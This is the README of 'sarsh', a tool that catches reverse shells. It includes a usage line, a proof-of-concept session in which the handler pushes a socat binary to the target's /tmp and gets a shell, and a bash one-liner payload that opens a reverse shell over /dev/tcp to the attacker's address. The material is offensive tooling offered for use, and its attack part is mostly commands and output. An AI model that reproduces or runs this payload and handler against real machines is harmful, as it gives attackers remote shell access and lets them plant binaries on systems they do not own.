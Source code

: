 # sarsh
SARSH - Socat Advanced Reverse Shell Handler

Usage:
```
python3 sarsh.py <ip> <port>
```

POC:
```
┌──(kali㉿kali)-[~/Desktop/sarsh]
└─$ python3 sarsh.py 192.168.152.128 1337
Listening on 192.168.152.128:1337
Connection from 192.168.152.130:42314
Transfering socat...

Socal transfered!
Socat name on the target: /tmp/lyqginuvpexxuvwj
Waiting for connection...
ubuntu@ubuntu-64:/tmp$ whoami
ubuntu
ubuntu@ubuntu-64:/tmp$
```

Ubuntu payload:
```
ubuntu@ubuntu-64:/tmp$ bash -i >& /dev/tcp/192.168.152.128/1337 0>&1
```
